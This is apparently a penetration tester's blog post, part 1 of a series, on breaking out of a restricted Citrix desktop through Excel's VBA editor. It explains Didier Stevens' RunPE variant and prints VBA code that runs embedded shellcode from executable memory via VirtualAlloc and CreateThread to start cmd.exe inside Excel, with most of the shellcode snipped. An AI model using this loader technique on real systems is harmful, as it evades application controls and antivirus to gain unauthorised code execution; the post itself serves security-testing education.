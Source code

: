 ```yaml
---
title: "VBA RunPE - Breaking Out of Highly Constrained Desktop Environments - Part 1/2"
layout: "post"
---
```


In this post, I'd like to share a technique that I often use to break out of highly constrained desktop environments such as CItrix. The only prerequisite is to have access to _Microsoft Word_ or _Excel_ with the VBA editor enabled. 


## Background

During an engagement, I had to assess the security level of a thick client on a Citrix virtual desktop. Usually, this kind of audit is quite easy. You find a way to open an _Explorer_ window, you access the `C:\` drive, execute `cmd.exe` or, even better, `powershell.exe`, and it's almost game over. If you're lucky enough, you will even find a vulnerability to escalate your privileges.

This time, however, it was different. I was able to quickly open an ``Explorer`` window - using the `File > Open...` menu - but, from there, I got an `Access Denied` error message with every application I tried to execute. None of the techniques listed in the [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) worked. 

The `Access Denied` error messages I got were not caused by _AppLocker_ but by a third-party security product: _[AppSense](https://www.ivanti.com/company/history/appsense)_ by _Ivanti_, and it was properly configured. Nevertheless, I spotted a potential weakness...


## The weakness 

After a few hours spent on looking for what I could execute on the virtual desktop, I came to the conclusion that only the thick client itself and _Microsoft Excel_ were accessible with my current privileges. So, I opened _Excel_ and enabled the _Developer tab_ to access the VBA editor. This was my way out...

This will probably seem an obvious avenue to explore for the most experienced pentesters but, at that time, it was not for me. I only knew that I could use `Metasploit` to generate shellcodes as VBA payloads but I also knew that they would be detected by the antivirus software. 


## VBA to the rescue

From there, I've done a lot of research to see what I could do with the VBA editor, and I stumbled upon [Didier Stevens' blog](https://blog.didierstevens.com/). For those of you, like me at that time, who never heard of him before, he is a Belgian security researcher, who works a lot on malicious _Office_ documents and ways to analyze and detect them.

One of his posts caught my attention: [Create Your Own CMD.XLS](https://blog.didierstevens.com/2016/02/10/create-your-own-cmd-xls/). It was about running `cmd.exe` within _Excel_ without creating a new process. Wait...! What...?!

<p align="center">
  <img src="/assets/posts/2018-12-12-vba-runpe-part1/01_stevens-blog-cmd-xls.png">
</p>

As we can see on his screenshot, the title of the command prompt window is actually the path of the _Excel_ executable. How is that possible and how will it help us?


## RunPE in VBA

Didier Stevens actually implemented a variant of the _RunPE_ technique in VBA. RunPE is a trick that has been used by malware authors for many years. It consists in running code inside the memory of a legit process in order to hide its actual ativity. 

I won't digress too much and explain what _RunPE_ is in detail. Instead, I will try to explain how his code works. You can follow along by downloading it [here](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip).

### 1) Importing WIN32 functions 

One of the most powerful features of VBA is the possibility to import functions from the Windows API. That's exactly what the first lines of his code do. They import 3 functions from `kernel32.dll`:

- [VirtualAlloc](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx)
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)
- [CreateThread](https://msdn.microsoft.com/en-us/library/windows/desktop/aa374779(v=vs.85).aspx)

```vb
Private Declare Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Sub RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As Long, ByVal sSource As String, ByVal lLength As Long)
Private Declare Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As Long
```

These functions are also the ones thet are typically used to execute a _shellcode_ on Windows. 

### 2) Defining structures and constants

A lot of structures and constants are defined in the Windows API. The problem is that VBA is _not aware_ of these definitions. So we have to declare them manually. 

Here, we are lucky, only two constants are required by `VirtualAlloc` and that's all.

- `MEM_COMMIT`
- `PAGE_EXECUTE_READWRITE`

```vb
Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40
```

### 3) The shellcode 

The objective is to run `cmd.exe` within _Excel_. To do so, the `cmd.exe` PE file was extracted from [ReactOS](https://reactos.org/) and converted to an alphanumeric shellcode. However, this operation has a cost. It generates a huge string that needs to be embedded into the code. To add to the challenge, the VBA editor has several restrictions: the length of the lines of code and functions are limited. 

Therefore, the shellcode needs to be constructed from the concatenation of multiple blocks, which are themselves the concatenation of multiple strings. 

The blocks are constructed like this:

```vb
Private Function ShellCode1() As String
    Dim sShellCode As String

    sShellCode = ""
    sShellCode = sShellCode + "6FoIAADDVYnlUVZXi00Mi3UQi30U/zb/dQjoGQAAAIkHgccEAAAAgcYEAAAA4uZfXlmJ7F3CEABVieVT"
    sShellCode = sShellCode + "VldRZP81MAAAAFiLQAyLSAyLEYtBMGoCi30IV1DoWwAAAIXAdASJ0evni0EYUItYPAHYi1h4WFABw4tL"
    sShellCode = sShellCode + "HItTIItbJAHBAcIBw4syWFABxmoB/3UMVugjAAAAhcB0CIPCBIPDAuvjWDHSZosTweICAdEDAVlfXluJ"
    sShellCode = sShellCode + "7F3CCABVieVRU1IxyTHbMdKLRQiKEIDKYAHT0eMDRRCKCITJ4O4xwItNDDnLdAFAWltZiexdwgwAVYnl"
    sShellCode = sShellCode + "g30MAHUVi0UQUGoAi00I/1EoUItFCP9QDOsXi1UQUotFDFBqAItNCP9RKFCLRQj/UBBdwgwAVYnlg+wU"
    sShellCode = sShellCode + "i0UUi0gEiU3wi1UUiwKLTRSLEQ+3ShSNVAgYiVXsx0X8AAAAAOsM/0X8i03sg8EoiU3si1UUiwIPt0gG"
    '[snip]
    
    ShellCode1 = sShellCode
End Function
```

The blocks are then assembled like this:

```vb
Private Function ShellCode() As String
    Dim sShellCode As String

    sShellCode = chr(&hEB) + chr(&h3A) + chr(&h31) + chr(&hD2) + chr(&h80) + chr(&h3B) + chr(&h2B)
    '[snip]
    sShellCode = sShellCode + ShellCode1()
    sShellCode = sShellCode + ShellCode2()
    sShellCode = sShellCode + ShellCode3()
    sShellCode = sShellCode + ShellCode4()
    '[snip]
    sShellCode = sShellCode + ShellCode204()
    sShellCode = sShellCode + ShellCode205()
    sShellCode = sShellCode + ShellCode206()
    sShellCode = sShellCode + ShellCode207()
    sShellCode = sShellCode + ShellCode208()

    ShellCode = sShellCode
End Function
```

Calling the `ShellCode()` function will therefore _dynamically_ generate the entire shellcode in memory.

### 4) Executing the shellcode

Once the shellcode is constructed, it can be executed the same way it would be in a standard Windows console application written in C++. First, a buffer is allocated using `VirtualAlloc` with `EXECUTE` permission. Then, the content of the shellcode is copied to the allocated buffer. Finally, a new thread is created by specifying the address of the buffer as a pointer to the thread `StartFunction`.  

```vb
Public Sub ExecuteShellCode()
    Dim sShellCode As String
    Dim lpMemory As Long
    Dim lResult As Long

    sShellCode = ShellCode()
    lpMemory = VirtualAlloc(0&, Len(sShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    RtlMoveMemory lpMemory, sShellCode, Len(sShellCode)
    lResult = CreateThread(0&, 0&, lpMemory, 0&, 0&, 0&)
End Sub
```


## Conclusion

Et voilà! We have a VBA macro that can be used to run `cmd.exe` within _Word_ or _Excel_. This can bypass any restriction as long as you have access to one of these two _Office_ products and the VBA editor is enabled. 

However, it has several drawbacks:

### 1) It only runs `cmd.exe`

Thanks to the command prompt, we can browse the entire file system easily, and... ...that's about all. Indeed, we won't be able to execute any other commands since it would require the creation of subprocesses. In addition, the shellcode was developed to run `cmd.exe` only and creating a new one to execute another PE file might represent a tedious task. 

### 2) __It is only 32-bit compatible__

This time, I was very lucky because a 32-bit version of _Office_ was installed in the virtual environment. If a 64-bit version was installed instead, the code would have failed. 

### __The code is huge!__

The final size of the VBA code is more than 2.2MB, for a total of more than 22,000 lines of code. A detail that I didn't mention in my scenario is the fact that file transfers between the host and the virtual desktop were also forbidden. Fortunately, it was still possible to use the clipboard but since its size was limited, I had to copy the entire code piece by piece manually. I could have used something like a _[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe)_ to work around this issue but I figured that the risk of failure was too high because of the huge amount of code to type.

But don't get me wrong, I'm very impressed by Didier Stevens' work and it clearly saved my day because I had nothing else to rely on. However, it was one of those times when you think you could have done better. So, I decided to make my own version and I implemented the full RunPE technique in VBA to address these limitations. 

The development process will be discussed in part 2... ;)

